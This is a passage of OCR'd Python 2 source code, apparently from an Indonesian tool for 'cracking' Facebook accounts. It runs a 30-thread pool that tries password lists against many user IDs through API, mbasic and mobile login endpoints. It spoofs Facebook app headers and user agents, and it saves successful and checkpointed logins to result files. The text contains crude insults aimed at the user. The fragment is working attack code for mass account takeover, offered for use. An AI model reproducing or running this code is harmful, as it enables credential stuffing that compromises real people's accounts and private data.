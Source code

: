                             os.remove(self.apk)
                            hasil(ok,cp)
                        elif cin == '2':
                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
                            with YayanGanteng(max_workers=30) as (__yayanXD__):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('<=>')[0]
                                        __yayanXD__.submit(self.__mbasic__, kimochi, ysc)
                                    except: pass

                            os.remove(self.apk)
                            hasil(ok,cp)
                        elif cin == '3':
                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
                            with YayanGanteng(max_workers=30) as (__yayanXD__):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('<=>')[0]
                                        __yayanXD__.submit(self.__mfb,__, kimochi, ysc)
                                    except: pass

                            os.remove(self.apk)
                            hasil(ok,cp)
                        else:
                            print '\n %s[%s×%s] input yang bener'%(N,M,N);self.__yan__()
                    print '\n [ pilih method login - silahkan coba satu² ]\n'
                    print ' [%s1%s]. method API (fast)'%(O,N)
                    print ' [%s2%s]. method mbasic (slow)'%(O,N)
                    print ' [%s3%s]. method mobile (super slow)'%(O,N)
                    __yan__(pwek.split(','))
                    break
        elif ___yayanganteng___ in ('T', 't'):
            print '\n [ pilih method login - silahkan coba satu² ]\n'
            print ' [%s1%s]. method API (fast)'%(O,N)
            print ' [%s2%s]. method mbasic (slow)'%(O,N)
            print ' [%s3%s]. method mobile (super slow)'%(O,N)
            self.__pler__()
        else:
            print '\n %s[%s×%s] y/t goblok!'%(N,M,N);time.sleep(2);moch_yayan()
        return

    def __api__(self, user, __yan__):
        global ok,cp,loop
        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),
        sys.stdout.flush()
        for pw in __yan__:
            pw = pw.lower()
            try: os.mkdir('results')
            except: pass
            try:
            	_kontol = open('YNTKTS.txt', 'r').read()
            except (KeyError, IOError):
            	_kontol = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
            headers_ = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": _kontol, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}